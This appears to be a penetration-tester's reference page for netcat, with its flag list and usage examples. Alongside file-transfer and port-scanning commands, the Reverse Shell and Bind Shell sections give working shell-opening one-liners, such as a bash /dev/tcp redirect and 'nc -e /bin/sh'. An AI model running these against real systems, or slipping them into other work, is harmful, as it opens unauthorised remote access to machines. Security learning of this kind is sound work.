 ```yaml
---
title: "nc"
# pre : '<i class="fas fa-code"></i> '
description: "Netcat, arbitrary TCP and UDP connections and listens."
date: 2020-04-09T13:47:11+02:00
# hidden : true
# draft : true
weight: 0
# tags : ['']
---
```


## Netcat

Netcat, arbitrary TCP and UDP connections and listens.

### Binary for Windows

{{%attachments fa_icon_class="far fa-file" pattern=".*(exe)"%}}

- SHA256 'nc.exe' - `be4211fe5c1a19ff393a2bcfa21dad8d0a687663263a63789552bda446d9421b`

## Usage

```plain
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

## Flags

```plain
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Examples

### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```plain
nc -lvp 10.10.10.2 80
```

### Transferring files

Receiver

```plain
nc -nlvp 10.10.10.2 4444 > incomming.exe
```

Sender

```plain
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

### Reverse Shell

**Receiver:**

```plain
nc -nlvp 10.10.10.2 4444
```

**Identity connecting and sending the reverse shell:**

```plain
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

**OR identity connecting and sending the reverse shell:**

```plain
nc 10.10.10.2 4444 -e /bin/sh
```

### Bind Shell

**Receiver:**

```plain
nc -nlvp 4444 -e cmd.exe
```

**Identity connecting to bind shell::**

```plain
nc -nv <ip> 4444
```

### Port Scanning (TCP)

**Note:** NetCat port scanning is based on the three-way handshake.

```plain
nc -nvv -w 1 -z 10.10.10.20 3380-3390
```

### Port Scanning (UDP)

```plain
nc -nv -u -z -w 1 10.10.10.20 160-162
```

## URL List

- [Linux.die.net](https://linux.die.net/man/1/nc)
